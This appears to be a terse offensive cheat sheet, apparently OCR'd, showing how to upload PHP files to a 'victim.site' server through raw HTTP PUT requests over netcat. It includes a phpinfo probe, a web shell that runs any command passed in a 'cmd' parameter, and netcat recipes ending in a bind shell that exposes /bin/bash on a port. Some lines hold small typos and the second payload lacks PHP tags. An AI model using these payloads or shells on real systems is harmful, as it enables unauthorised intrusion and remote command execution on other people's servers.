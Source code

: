 ```bash
nc victim.site 80
PUT /payload.php HTTP/1.0
Content-type: text/html
Content length: 20

<?php phpinfo(); ?>
```

```bash
# PHP Shell

> nc victim.site 80
PUT /payload.php HTTP/1.0
Content-type: text/html
Content-length: 136

if (isset($_GET['cmd'])) {
  $cmd = $_GET['cmd'];
  echo '<pre>';
  $result = shell_exec($cmd);
  echo $result;
  echo '</pre>';
}
```

### `nc`

```bash
# => server/listener
nc -lvp 8888
# -l listen
# -v verbose
# -p port
# -e execite

# => client
nc -v 127.0.0.1 8888

# => udp server
nc -lvup 9999

# => udp client
nc -vu localhost 9999

# Send text from Client to Server
# => Server
nc -lvp 8888 > received.txt
# => Client
echo "hello" | nc -v localhost 8888

# Send file from Client to Server
# => Server
nc -lvp 8888 > received.txt
# => Client
cat to_be_sent.txt | nc -v localhost 8888

# Bash command
# => Server
nc -lvp 5555 -e /bin/bash

# => client
echo 'ls' | nc -v localhost 5555
```
